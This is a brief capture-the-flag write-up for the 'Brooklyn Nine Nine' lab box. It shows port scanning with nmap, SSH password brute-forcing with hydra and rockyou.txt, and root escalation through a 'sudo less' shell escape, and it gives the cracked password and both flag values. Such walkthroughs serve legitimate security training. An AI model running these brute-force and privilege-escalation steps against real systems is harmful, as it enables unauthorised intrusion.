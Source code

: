 # Brooklyn Nine Nine

### #1 User flag

Run a nmap scan to see how many ports is open.
```
nmap -sV <ip>
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Seach ftp to see if there is anything good there
```
note_to_jake.txt
```

Jake has a bad password so we bruteforce jake
```
hydra -l jake -P rockyou.txt ssh://<ip>
[22][ssh] host: 10.10.10.91   login: jake   password: 987654321
```

Log in and check folders for files
```
cat /home/holt/user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

### #2 Root flag

List user's privileges
```
sudo -l
sudo less /etc/profile 
!/bin/sh 
```
Finish of with cating out the root flag
```
cat /root/root.txt  
3a9f0ea7bb98050796b649e85481845
```
